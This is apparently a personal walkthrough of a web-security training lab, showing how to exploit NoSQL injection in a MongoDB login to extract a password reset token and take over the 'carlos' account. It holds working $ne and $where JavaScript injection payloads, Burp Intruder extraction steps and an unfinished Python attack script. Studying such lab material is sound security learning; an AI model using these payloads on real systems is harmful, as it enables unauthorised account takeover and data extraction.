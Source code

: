 The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, log in as `carlos`.

---

Goal: log in as Carlos

![[IMG/Pasted image 20240921040622.png]]
In Repeater, change the value of the password parameter from `"invalid"` to `{"$ne":"invalid"}`, then send the request. Notice that you now receive an `Account locked` error message. You can't access Carlos's account, but this response indicates that the `$ne` operator has been accepted and the application is vulnerable.

- In Burp's browser, attempt to reset the password for the `carlos` account. When you submit the `carlos` username, observe that the reset mechanism involves email verification, so you can't reset the account yourself.
    
- In Repeater, use the `POST /login` request to test whether the application is vulnerable to JavaScript injection:
    
    1. Add `"$where": "0"` as an additional parameter in the JSON data as follows: `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}`
    2. Send the request. Notice that you receive an `Invalid username or password` error message.
    3. Change `"$where": "0" to "$where": "1"`, then resend the request. Notice that you receive an `Account locked` error message. This indicates that the JavaScript in the `$where` clause is being evaluated.

![[IMG/Pasted image 20240921054622.png]]

Construct an attack to identify all the fields on the user object:

1. Update the `$where` parameter as follows: `"$where":"Object.keys(this)[1].match('^.{}.*')"`
2. Add two payload positions. The first identifies the character position number, and the second identifies the character itself: `"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"`


```php
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
```

```php
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "Object.keys(this)[1].match('^.{}.*')"}
```

```php
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "Object.keys(this)[1].match('^.{}.*')"}
```

```php
"$where":"Object.keys(this)[1].match('^.{<POSITION>}<CHR>.*')"
```

```php
"$where":"Object.keys(this)[1].match('^.{1}a.*')"
```

To identify further JSON parameters. You can do this by incrementing the index of the keys array with each attempt, for example: `"$where":"Object.keys(this[2].match('^.{}.*')"`

Notice that one of the JSON parameters is for a password reset token.

- Identify the `GET /forgot-password` request as a potentially interesting endpoint, as it relates to the password reset functionality. Right-click the request and select **Send to Repeater**.

![[IMG/Pasted image 20240921042948.png]]

-  In Repeater, submit an invalid field in the URL: `GET /forgot-password?foo=invalid`. Notice that the response is identical to the original response.
-  Submit the exfiltrated name of the password reset token field in the URL: `GET /forgot-password?YOURTOKENNAME=invalid`. Notice that you receive an `Invalid token` error message. This confirms that you have the correct token name and endpoint.
- In Intruder, use the `POST /login` request to construct an attack that extracts the value of Carlos's password reset token:
    
    1. Keep the settings from your previous attack, but update the `$where` parameter as follows: `"$where":"this.YOURTOKENNAME.match('^.{§§}§§.*')"`
        
        Make sure that you replace `YOURTOKENNAME` with the password reset token name that you exfiltrated in the previous step.
        
    2. Click **Start attack**.
    3. Sort the attack results by **Payload 1**, then **Length**, to identify responses with an `Account locked` message instead of the `Invalid username or password` message. Note the letters from the **Payload 2** column down.
- In Repeater, submit the value of the password reset token in the URL of the `GET / forgot-password` request: `GET /forgot-password?YOURTOKENNAME=TOKENVALUE`.

---

Script details.

Error message: `Account locked: please reset your password`

- Find token name
- Use token name to get token value
- Does need a csrf

```php
"$where": "function(){ if(Object.keys(this)[3].match(/^X/) ) return 1; else 0; }"
```
- Value to change `X`
 
 Password field:

```php
{"$ne":"invalid"}
```

Full payload:

```php
{"username":"carlos","password":{"$ne":""}, "$where": "function(){ if(object.keys(this)[3].match(/^X/) ) return 1; else 0; }"}
```
- Is case sensitive, (changed `object` to `Object`) and now i'm getting the correct server response.

Change the x position to find the token name.

Then i can move onto the next part of the exploit. 
_unfinished_
- needs a csrf but it looks like it needs it as the `cookie:` 
```php
#!/usr/bin/python3

import sys
import requests
import urllib3
from bs4 import BeautifulSoup 


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


# Get csrf
def get_csrf(s, url):
	r = s.get(url + 'login', verify=False, proxies=proxies)
	soup = BeautifulSoup(r.text, 'html.parser')
	csrf = soup.find("input")['value']
	print(f'The csrf is: {csrf}')
	return csrf
	

# Brute-Force the token name
def get_token_name(s, url):
	csrf = get_csrf(s, url)
	data = {
		"username": "carlos",
		"password": {"$ne":"invalid"},
		"$where": "function(){ if(Object.keys(this)[3].match(/^e/) ) return 1; else 0; }"
	}
	
	r = s.post(url + 'login', data=data, verify=False, proxies=proxies)
	print("done")



# Print user intructions
def main():
	if len(sys.argv) != 2:
		print("[+] Usage: %s <URL>" % sys.argv[0])
		print("[+] Example: %s www.example.com/" % sys.argv[0])
		sys.exit(-1)
		
	print("[+] Trying to find the token name...")
	
	s = requests.Session()
	url = sys.argv[1]
	get_token_name(s, url)
	
if __name__ == '__main__':
	main()
```